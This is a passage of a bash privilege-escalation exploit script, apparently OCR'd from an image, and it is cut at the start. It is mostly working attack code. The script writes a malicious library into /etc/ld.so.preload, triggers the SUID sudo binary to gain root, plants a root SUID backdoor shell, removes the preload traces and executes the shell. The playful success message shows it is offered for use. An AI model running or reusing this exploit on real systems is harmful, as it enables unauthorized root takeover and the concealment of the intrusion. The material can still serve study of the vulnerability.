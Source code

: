 ```
sleep 0.1

if [ -f /etc/ld.so.preload ]; then

echo $PRIVESCLIB > /etc/ld.so.preload

break;

fi

done

# /etc/ld.so.preload file should be owned by tomcat user at this point

# Inject the privesc.so shared library to escalate privileges

echo $PRIVESCLIB > /etc/ld.so.preload

echo -e “\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`”

echo -e “\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload”

echo -e “\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`”

# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)

echo -e “\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!”

sudo --help 2>/dev/null >/dev/null

# Check for the rootshell

ls -l $BACKDOORPATH | grep rws | grep -q root

if [ $? -eq 0 ]; then

echo -e “\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`”

echo -e “\n\033[94mPlease tell me you’re seeing this too ![:wink:](../img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

\033[0m”

else

echo -e “\n[!] Failed to get root”

cleanexit 2

fi

# Execute the rootshell

echo -e “\n[+] Executing the rootshell $BACKDOORPATH now! \n”

$BACKDOORPATH -p -c “rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB”

$BACKDOORPATH -p

# Job done. `cleanexit 0` 
```
